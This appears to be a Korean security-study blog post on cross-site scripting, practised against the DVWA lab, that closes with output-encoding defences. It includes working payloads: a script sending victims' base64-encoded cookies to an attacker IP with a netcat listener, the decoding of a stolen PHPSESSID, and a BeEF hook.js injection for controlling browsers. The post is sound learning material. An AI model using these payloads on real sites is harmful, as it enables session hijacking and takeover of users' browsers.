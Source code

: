```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### ***Reflected XSS (반사형)***

Reflected XSS는 사용자의 입력이 서버를 거쳐 즉시 응답 페이지에 반영될 때 발생한다.  
DVWA의 `XSS (Reflected)` 페이지는 `name` 파라미터의 값을 별도의 검증 없이 HTML 응답에 삽입한다.

다음과 같은 요청을 전송하면

```
GET /vulnerabilities/xss_r/?name=<script>alert('Reflected%20XSS')</script> HTTP/1.1
Host: dvwa.local
```

서버는 입력값을 그대로 포함한 응답을 반환한다.

```html
<h1>Hello <script>alert('Reflected XSS')</script>!</h1>
```

브라우저는 이 HTML을 파싱하면서 `<script>` 태그를 실행하고 경고창을 표시한다.  
이 공격은 URL에 의존하므로, 공격자는 피싱 링크를 통해 피해자를 유도할 수 있다.

---

#### ***Stored XSS (저장형)***

Stored XSS는 공격 페이로드가 서버의 데이터베이스나 파일 시스템에 영구적으로 저장된 후,  
해당 페이지를 방문하는 모든 사용자에게 전달될 때 발생한다.

DVWA의 `XSS (Stored)` 페이지는 방명록 메시지를 데이터베이스에 저장한 뒤,  
모든 방문자에게 동일한 HTML로 출력한다.

공격자가 다음 메시지를 등록하면,

```html
<script>alert('Stored XSS')</script>
```

서버는 이를 저장하고, 이후 페이지 접근 시 다음과 같은 구조로 응답한다.

```html
<div class="guestbook-post">
  <script>alert('Stored XSS')</script>
</div>
```

이 경우, 해당 페이지를 방문하는 모든 사용자의 브라우저에서 스크립트가 실행된다.  
공격 범위가 Reflected XSS보다 훨씬 넓다는 점에서 위험성이 크다.

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹(Session Hijacking) 공격에 사용될 수 있다.

   ***1. 공격자 리스너 준비***
   공격자는 Netcat을 사용해 HTTP 요청을 수신하는 리스너를 실행한다.  
   ```bash
   sudo nc -lvnp 80
   ```

이 명령은 80번 포트에서 들어오는 연결을 대기합니다.

   ***2. 쿠키 탈취 페이로드 작성***  
   다음 스크립트는 현재 도메인의 쿠키를 읽어 공격자 서버로 전송한다.  
   ```javascript
   <script>
     document.location = 'http://192.9.200.12/?cookie=' + btoa(document.cookie);
   </script>
   ```  
   - `document.cookie`: 현재 세션의 모든 쿠키를 반환  
   - `btoa()`: 특수문자로 인한 URL 파싱 오류를 방지하기 위해 Base64 인코딩 수행  

   ***3. 페이로드 주입 및 실행***  
   위 스크립트를 Stored XSS 취약점에 삽입하면, 피해자가 페이지를 방문할 때마다 브라우저가 자동으로 다음 요청을 보낸다.
   ```
   GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz HTTP/1.1
   Host: 192.9.200.12
   User-Agent: Mozilla/5.0 ...
   ```

   ***4. 쿠키 복원***  
   공격자는 수신된 Base64 문자열을 디코딩해 실제 쿠키 값을 확인할 수 있다.  
   ```bash
   echo "c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz" | base64 -d
   # 출력: security=low; PHPSESSID=abc123
   ```  
   이 값을 자신의 브라우저에 주입하면 피해자의 세션으로 로그인할 수 있다.

---

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.  

1. ***BeEF 실행***  
   공격자는 다음 명령으로 BeEF를 시작한다.  
   ```bash
   sudo beef-xss
   ```  
   BeEF는 기본적으로 `http://192.9.200.12:3000/ui/panel`에서 관리자 인터페이스를 제공하며,  
   Hook 스크립트 URL은 다음과 같다.
   ```html
   <script src="http://192.9.200.12:3000/hook.js"></script>
   ```

2. ***Hook 스크립트 주입***  
   이 스크립트를 Stored XSS 취약점에 삽입하면
   방문자의 브라우저는 자동으로 `hook.js`를 로드하고 BeEF 서버에 연결된다.

3. ***브라우저 제어***  
   BeEF 관리자 패널의 `Online Browsers` 탭에서는 연결된 브라우저의 다음 정보를 확인할 수 있다.
   - IP 주소  
   - 운영체제  
   - 브라우저 종류 및 버전  

   공격자는 `Commands` 탭에서 다양한 모듈을 실행할 수 있다.
   - **Get Cookies**: `document.cookie` 값을 수집  
   - **Redirect Browser**: 특정 URL로 강제 이동  
   - **Create Alert Dialog**: 사용자에게 경고창 표시  

   이러한 기능은 추가적인 사회공학 공격이나 정보 수집에 활용된다.

---

### 5. 방어 방안: 출력 인코딩

XSS를 방어하는 가장 효과적인 방법은 **모든 사용자 입력을 출력 시 인코딩**하는 것이다.  
브라우저가 입력값을 HTML 태그나 스크립트로 해석하지 못하도록,  
특수문자를 안전한 HTML 엔터티로 변환해야 한다.

예를 들어, 다음 문자는 다음과 같이 인코딩되어야 한다.
- `<` → `&lt;`  
- `>` → `&gt;`  
- `&` → `&amp;`  
- `"` → `&quot;`  
- `'` → `&#039;`  

PHP에서는 `htmlspecialchars()` 함수를 사용해 이를 처리할 수 있다.
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```  

이렇게 인코딩된 출력은 브라우저에서 **단순 텍스트로만 표시**되며,  
스크립트 실행이나 태그 해석이 발생하지 않는다.

<hr class="short-rule">